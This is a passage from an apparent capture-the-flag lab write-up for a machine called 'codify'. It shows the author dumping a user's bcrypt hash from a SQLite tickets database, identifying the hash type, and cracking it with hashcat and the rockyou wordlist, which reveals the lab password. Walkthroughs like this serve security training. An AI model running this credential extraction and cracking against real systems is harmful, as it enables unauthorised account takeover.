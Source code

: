 The contact folder is for the :3000 service and editor from the :80 one.
In the contact folder there is a sqlite3 db file:

```bash
svc@codify:/var/www/contact$ ls -l tickets.db 
-rw-r--r-- 1 svc svc 20480 Sep 12  2023 tickets.db
```

Let's enumerate it:

```bash
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We have joshua's hash, let's crack it in our machine:

```bash
❯ hashid '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
Analyzing '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
                                                                                                            
❯ hashcat --example-hashes | grep bcrypt -B 4
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX

Hash mode #3200
  Name................: bcrypt $2*$, Blowfish (Unix)
< -- SNIP -- >

❯ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
<-- SNIP -->


$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1

<-- SNIP -->
```

So the password for joshua is 'spongebob1'

# Access as joshua
